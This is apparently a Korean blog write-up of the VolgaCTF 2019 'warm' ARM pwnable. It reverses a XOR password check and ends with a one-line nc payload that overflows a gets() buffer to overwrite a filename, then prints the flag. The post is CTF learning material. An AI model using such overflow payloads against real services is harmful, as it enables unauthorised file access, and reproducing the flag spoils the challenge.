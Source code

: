 ```yaml
---
layout: post
title: ! "[VolgaCTF 2019] warm Write-up "
excerpt_separator: <!--more-->
tags:
  - nalda
  - VolgaCTF 2019
  - Write-up
---
```


volgaCTF 2019 대회에 출제된 Pwnable인 warm문제
<!--more-->

volgaCTF 2019에서 출제된 warm이라는 문제이다!

먼저 파일을 확인해보면
```bash
nalda@nalda:~$ file warm 
warm: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```
32bit ARM  Binary이다

먼저 IDA를 이용해 String을 확인했을 때,
```
LOAD:00000154	00000019	C	/lib/ld-linux-armhf.so.3
LOAD:0000033D	0000000A	C	libc.so.6
LOAD:00000347	00000005	C	gets
LOAD:0000034C	00000007	C	strcpy
LOAD:00000353	00000006	C	fopen
LOAD:00000359	00000005	C	puts
LOAD:0000035E	00000011	C	__stack_chk_fail
LOAD:0000036F	00000008	C	putchar
LOAD:00000377	00000006	C	abort
LOAD:0000037D	00000007	C	printf
LOAD:00000384	00000007	C	strlen
LOAD:0000038B	00000007	C	stdout
LOAD:00000392	00000007	C	fclose
LOAD:00000399	00000007	C	getenv
LOAD:000003A0	0000000F	C	__cxa_finalize
LOAD:000003AF	00000008	C	setvbuf
LOAD:000003B7	00000009	C	_IO_getc
LOAD:000003C0	00000012	C	__libc_start_main
LOAD:000003D2	00000014	C	ld-linux-armhf.so.3
LOAD:000003E6	00000012	C	__stack_chk_guard
LOAD:000003F8	0000000A	C	GLIBC_2.4
LOAD:00000402	0000001C	C	_ITM_deregisterTMCloneTable
LOAD:0000041E	0000000F	C	__gmon_start__
LOAD:0000042D	0000001A	C	_ITM_registerTMCloneTable
.rodata:00000B14	0000000A	C	FLAG_FILE
.rodata:00000B20	00000005	C	flag
.rodata:00000B28	00000017	C	Incorrect! Try again!\n
.rodata:00000B40	00000014	C	Unable to open file
.rodata:00000B54	0000001B	C	Unable to open %.*s file!\n
.rodata:00000B70	0000000E	C	Unknown error
.rodata:00000B80	0000002F	C	Hi there! I've been waiting for your password!
```

.rodata:00000B80영역에 
`Hi there! I've been waiting for your password!`라는 메시지가 있다는 사실을 알 수 있다.

```c
int sub_9EC()
{
  _IO_FILE *fp; // [sp+Ch] [bp+Ch]
  int c; // [sp+10h] [bp+10h]
  char v3[100]; // [sp+14h] [bp+14h]
  char v4[100]; // [sp+78h] [bp+78h]

  setvbuf((FILE *)stdout, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      sub_8F0(&v4);
      puts("Hi there! I've been waiting for your password!");
      gets((char *)&v3);
      if ( !sub_788((const char *)&v3) )
        break;
      sub_978(1, 0);
    }
    fp = (_IO_FILE *)fopen((const char *)&v4, "rb");
    if ( fp )
      break;
    sub_978(2, &v4);
  }
  while ( 1 )
  {
    c = IO_getc(fp);
    if ( c == -1 )
      break;
    putchar(c);
  }
  fclose((FILE *)fp);
  return 0;
}
```

코드를 확인 해 보면 
1. `sub_8F0`함수를 통해 flag 파일을 읽어온다.
2. `v3`에 password를 받아온다
3. 입력받은 password는 `sub_788`함수에서 루틴을 체크한다.
4. 이를 통과하면, `v4`에 들어있는(2에서 반환된 값) file을 실행한다.
생각보다 간단한 프로그램이다 바로 `sub_788`의 내용을 확인해보자

```c
signed int __fastcall sub_788(const char *a1)
{
  char *s; // [sp+4h] [bp+4h]

  s = (char *)a1;
  if ( strlen(a1) <= 0xF )
    return 1;
  if ( (unsigned __int8)(*s ^ 0x23) != 85
    || (unsigned __int8)(s[1] ^ *s) != 78
    || (unsigned __int8)(s[2] ^ s[1]) != 30
    || (unsigned __int8)(s[3] ^ s[2]) != 21
    || (unsigned __int8)(s[4] ^ s[3]) != 94
    || (unsigned __int8)(s[5] ^ s[4]) != 28
    || (unsigned __int8)(s[6] ^ s[5]) != 33
    || (unsigned __int8)(s[7] ^ s[6]) != 1
    || (unsigned __int8)(s[8] ^ s[7]) != 52
    || (unsigned __int8)(s[9] ^ s[8]) != 7
    || (unsigned __int8)(s[10] ^ s[9]) != 53
    || (unsigned __int8)(s[11] ^ s[10]) != 17
    || (unsigned __int8)(s[12] ^ s[11]) != 55
    || (unsigned __int8)(s[13] ^ s[12]) != 60
    || (unsigned __int8)(s[14] ^ s[13]) != 114
    || (unsigned __int8)(s[15] ^ s[14]) != 71 )
  {
    return 2;
  }
  return 0;
}
```

생각보다 간단한 루틴체크이다.
각 조건별로 `(s[i] ^ s[i-1])`의 값과 !=로 뒤의값과 비교한다.
이 조건을 통해 python 코드를 작성했다.

```python
key = [ 85, 78, 30, 21, 94, 28, 33, 1, 52, 7, 53, 17, 55, 60, 114, 71 ]

passChar = 35

passwd = ""

for i in key:
    passChar = i ^ passChar
    passwd += chr(passChar)

print passwd
```


![]({{ site.baseurl }}/images/nalda/warm/1.png)

결과이다!

```
v8&3mqPQebWFqM?x
```

이 값을 입력하게 되면
```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```
라는 메시지가 나온당

뭔소린가 싶어서 고민을 했는데 뭔가 더 있단다

`sub_8F0`함수에서 환경변수로 저장된 flag 파일의 내용이 `Seek file with something more sacred!
`
서버가 닫혀 다른 write-up을 본 결과, `sacred`라는 파일을 읽으면 된다고 한다!


```python
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```

Flag is
```VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} ```
